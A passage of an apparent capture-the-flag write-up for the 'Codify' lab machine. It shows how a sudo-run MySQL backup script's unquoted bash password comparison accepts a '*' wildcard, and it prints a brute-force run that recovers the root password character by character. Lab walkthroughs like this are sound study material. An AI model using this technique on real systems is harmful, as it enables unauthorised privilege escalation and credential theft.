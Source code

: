```bash

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The logic for this script is to ask for a password, compare it, then backup the database. The comparison that takes place does not compare the string itself to the other string, as in the case of an asterisk it can produce a positive result without knowledge of the password.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

We can use a simple fuzzing script to iterate through every option adding * to the end to find out the password here. [https://github.com/CyberCherney/random_scripts/blob/main/hacking/bashscriptpasswordbrute.py](https://github.com/CyberCherney/random_scripts/blob/main/hacking/bashscriptpasswordbrute.py) is what I wrote and used. 

```bash
joshua@codify:~$ python3 exploit.py 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
